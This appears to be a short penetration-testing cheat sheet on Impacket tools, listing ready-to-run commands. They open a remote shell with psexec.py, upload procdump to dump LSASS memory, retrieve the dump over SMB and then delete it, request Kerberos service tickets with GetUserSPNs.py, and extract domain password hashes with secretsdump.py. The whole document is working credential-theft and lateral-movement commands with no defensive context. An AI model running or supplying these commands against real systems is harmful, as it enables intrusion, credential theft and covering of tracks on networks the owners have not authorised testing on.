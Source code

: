 # impacket

## psexec.py

Get a cmd:

``` bash
psexec.py "$domain/$domuser:$userpassword@$cible"
```

Execute remote commands (procdump is local in the current working directory, and will automatically be sent by psexec to the remote system for execution):

``` bash
psexec.py -c procdump.exe "$domain/$domuser:$userpassword@$cible" "-acceptEula -ma lsass.exe C:/windows/lsass.dmp"
smbget -w $domain -U $domuser%$userpassword smb://$cible/ADMIN$/lsass.dmp
psexec.py "$domain/$domuser:$userpassword@$cible" "del C:/windows/lsass.dmp"
```


## GetUserSPNs.py

``` bash
GetUserSPNs.py -dc-ip 192.168.1.1 contoso.local/jdupond:'P@$$w0rd' -save
```

## secretsdump.py

Remotely:

``` bash
secretsdump.py -just-dc -user-status -history contoso.local/Administrator:'P@$$w0rd'@192.168.1.1 | tee secretsdump_contoso.local_192.168.1.1.txt
```

Locally:

``` bash
secretsdump.py -user-status -history -system SYSTEM -ntds ntds.dit local | tee secretsdump_contoso.local_local.txt
```
